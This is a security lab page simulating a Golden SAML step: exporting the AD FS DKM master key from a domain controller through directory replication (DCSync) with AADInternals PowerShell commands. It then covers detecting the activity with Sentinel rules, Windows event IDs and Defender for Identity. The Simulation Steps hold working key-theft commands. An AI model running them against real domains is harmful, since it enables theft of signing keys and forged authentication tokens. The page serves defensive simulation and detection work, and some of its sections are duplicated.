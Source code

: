 # Export AD FS DKM Master Key via Directory Replication Services

Even though a threat actor might have been able to extract AD FS certificates from AD FS configuration settings, they still would need to be decrypted. AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to decrypt them is stored in the domain controller. When the primary AD FS farm is configured, the AD FS DKM container is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container.

The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the `AD FS configuration settings`. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. One way to to indirectly access and retrieve the DKM master key can be via [Active Directory Replication services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) and retrieve the AD object. This approach bypasses detections that rely on audit rules monitoring for any direct access attempt to the AD object. However, this approach requires the user to have the right elevated privileges to perform directory replication actions in a domain.

## Table of Contens

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
        * Identity:
            * AD FS Service Account
            * Local Administrator
    * Resource: AD FS DKM Container
        * Identity:
            * AD FS Service Account
            * AD Domain Administrator
* Domain Controller:
    * Services:
        * Lightweight Directory Access Protocol (LDAP)
    * Network:
        * Port: 389
* Input:
    * AD FS Configuration Settings

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [Variations](#variations)

## Preconditions
* Integrity level: medium
* Authorization:
    * Resource: Domain Controller
    * Identity:
        * AD Domain Administrator
* Domain Controller
    * Services:
        * Active Directory Replication
* Input:
    * AD FS Configuration Settings

## Simulation Steps

### Get Path of AD FS DKM container

The AD FS DKM key value is stored in the `ThumbnailPhoto` attribute of an AD contact object in the AD FS DKM container. Therefore, we first need to get the path of the AD FS DKM container in the AD domain controller. That information can be retrieved from the `AD FS configuration settings`.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$base
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_13_get_ad_dkm_path.png)

### Retrieve AD Contact Object via Directory Replication Services

**Active Directory Replication Services with AADInternals** 

1. Access a the domain-joined endpoint (`WORKSTATION6`) where you authenticated previously as a domain administrator to perform the [DCSync technique](https://attack.mitre.org/techniques/T1003/006/).
2. Open PowerShell as Administrator
3. Get the path of the AD FS DKM container and use it to obtain the `GUID` of the AD FS DKM contact object.

```PowerShell
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$base"
$results = $ADSISearcher.FindOne()
$AdfsContactObjectGuid = ([guid]($results.Properties).objectguid[0]).guid
$AdfsContactObjectGuid
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_24_remote_adfs_encryption_key_container_guid.png)

4. On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module AADInternals
```

5. Export the AD FS DKM master key value via directory replication services.

```PowerShell
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2' 
$DC = 'DC01.simulandlabs.com' 
$cred = Get-Credential 
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid 
[System.BitConverter]::ToString([byte[]]$key)
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_25_remote_adfs_encryption_key.png)

## Detection

### Detect the use of Directory Replication Services to Retrieve AD Contact Object

#### Azure Sentinel Detection Rules

**Non-DC Active Directory Replication**

The following access rights/permissions are needed for the replication request according to the domain functional level:

| Control access right symbol    | Identifying GUID used in ACE |
| ------------------------------ | ---------------------------- |
| DS-Replication-Get-Changes     | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-In-Filtered-Set | 89e95b76-444d-4c62-991a-0facbeda640c |

We can see those GUID values in the `Properties` values of Windows Security events with ID 4662.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-07-01_29_dcsync_4662_permissions.png)

We can also join the Windows Security event 4662 with 4624 on the LogonId value to add authentication context to the replication activity and get the `IP Address` of the workstation that performed the action.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-07-01_30_dcsync_4662_4624_correlation.png)

Use the following detection rule to explore this activity:

* [Non Domain Controller Active Directory Replication](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/NonDCActiveDirectoryReplication.yaml)

#### Microsoft Defender for Identity

**Suspected DCSync attack (replication of directory services)** 

The Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this behavior occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. Something to keep an eye on is the number of replication requests in the alert information. It went up from 4 to 10. Remember that the same alert also shows up in MCAS.

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_26_m365_mdi_alert_dcsync.png)

## Output

* AD FS DKM Master Key

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)